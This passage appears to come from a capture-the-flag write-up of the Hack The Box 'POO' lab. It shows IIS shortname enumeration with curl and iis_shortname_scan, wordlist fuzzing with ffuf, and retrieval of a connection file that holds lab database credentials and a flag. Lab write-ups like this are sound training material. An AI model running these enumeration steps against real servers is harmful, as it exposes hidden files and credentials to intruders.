 >[!bug] `IIS Shortnames` are `Enabled`
```sh
➜  poo.htb curl -s -X OPTIONS -I 'http://10.13.38.11/ta*~1*'
HTTP/1.1 200 OK
Allow: OPTIONS, TRACE, GET, HEAD, POST
Server: Microsoft-IIS/10.0
Public: OPTIONS, TRACE, GET, HEAD, POST
Date: Tue, 20 Aug 2024 12:42:35 GMT
Content-Length: 0
```
>[!info]
>The `shortname` feature in `IIS` allows access to files using their legacy `8.3 filenames`, which can be exploited by attackers for file enumeration and information disclosure.

>[!bug] Use `iis_shortname_scan`
```sh
python3 iis_shortname_scan.py -u 'http://10.13.38.11:80/dev/dca66d38fd916317687e1390a420c3fc/db/'
```
>[!important] We can see a `Shortname` for `poo` following by a slash `_` and word starting with `co`
```sh
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/p~1.* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/po~1.* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo~1.* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_~1.* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_c~1.* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.t* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.tx* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt* [scan in progress]
[+] File /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt* [Done]
----------------------------------------------------------------
File: /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*
----------------------------------------------------------------
```
>[!example] Create a word list to fuzz for words that start by `co` only
```sh
grep "^co" ~/Documents/Word\ Lists/raft-medium-words-lowercase.txt > fuzz.txt
```
>[!bug] Fuzz again, this time add file extensions
```sh
ffuf -w ~/Documents/HTB/Endgames/poo.htb/fuzz.txt -u 'http://10.13.38.11:80/dev/dca66d38fd916317687e1390a420c3fc/db/poo_FUZZ' -e .txt,.db,.py,.zip
```
>[!danger] Curl the file `poo_connection.txt`
```sh
curl http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_connection.txt
```
>[!important] Take the first `flag` and note the `credentials`
```
SERVER=10.13.38.11
USERID=external_user
DBNAME=POO_PUBLIC
USERPWD=#p00Public3xt3rnalUs3r#

Flag : POO{fffb0767f5bd3cbc22f40ff5011ad666}
```
# Huh?!
## Port `1433`
